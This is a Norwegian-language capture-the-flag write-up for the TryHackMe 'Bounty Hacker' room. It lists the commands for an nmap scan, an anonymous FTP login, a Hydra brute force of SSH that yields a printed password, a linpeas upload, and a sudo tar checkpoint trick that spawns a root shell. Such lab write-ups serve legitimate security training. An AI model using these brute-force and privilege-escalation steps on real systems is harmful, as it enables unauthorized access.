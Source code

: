 ## Bounty Hacker - Try Hack Me

## 1. Overview
En maskin som var rata *easy* på tryhackme.com
Omhandlet å ta seg inn på en anonym **FTP** server for å hente ut noen filer. Videre ble det brukt **Hydra** for å bruteforce oss inn på **ssh**. Til slutt fant man ut at brukeren hadde rettigheter til å **kjøre en kommando som root**, og man kunne spawne et root shell.

Link til maskinen: https://tryhackme.com/room/cowboyhacker  



## 2. Oppgaver
### 2.1 User.txt

```sh
export IP=10.10.13.45
```

Kjører først en **NMAP** scan:
```sh
nmap -sV -sC -oA nmap/ $IP
```
NMAP skannen viste til 3 åpne porter på maskinen:

- ***21 ftp***
- ***22 ssh***
- ***80 http***

FTP serveren er første hintet.
Serveren har anonym pålogging, så jeg kom inn ved å skrive:
```sh
ftp $IP
```

Når den spør om username så brukte jeg "anonymous", passord feltet lot jeg være blankt.
Lasta ned en `task.txt` og en `locks.txt` som lå på fil serveren.
I task.txt finner man ut at en av brukerene heter "Lin". Locks.txt inneholder bare masse passord.

Så et av hintene er at man skal bruteforce ssh porten med de passordene funnet.
Til dette brukte jeg Hydra:
```sh
hydra -l lin -P locks.txt $IP -t 4 ssh
```

-l er user, og -P brukes for å spesifisere en wordlist man skal bruke til bruteforcen.
Hydra fant en successfull login --> `lin:RedDr4gonSynd1cat3`

Logger da inn på ssh med
```sh
ssh lin@$IP
```

Brukte denne guiden for hydra:
https://linuxconfig.org/ssh-password-testing-with-hydra-on-kali-linux  
På desktopen lå det en user.txt fil som inneholdt flagget.



### 2.2 root.txt
Brukte ssh til å kopiere over et privesc script. Bruker Linpeas i dette tilfelle:
```sh
scp ./linpeas.sh lin@$IP:/home/Documents/
```

Linpeas skriptet har jeg klonet fra githuben deres: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

Den ga mye nyttig, men det viktigste var at man måtte sjekke kommandoen "sudo -l"
sudo -l ga meg noe å jobbe med:
```sh
User lin may run the following commands on bountyhacker:                                                                                                     
    (root) /bin/tar
```

Så kjørte jeg et søk på GTFObin om `tar` kommandoen. Det fantes flere muligheter, og dette var kommandoen jeg endte opp med å kjøre for å spawne et root shell:
```sh
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Kan se om man er root ved å skrive `id`, eller `whoami`.
Deretter bruker jeg shellet til å finne `root.txt` fila:
```sh
find / -name "root.txt" 2>/dev/null
```

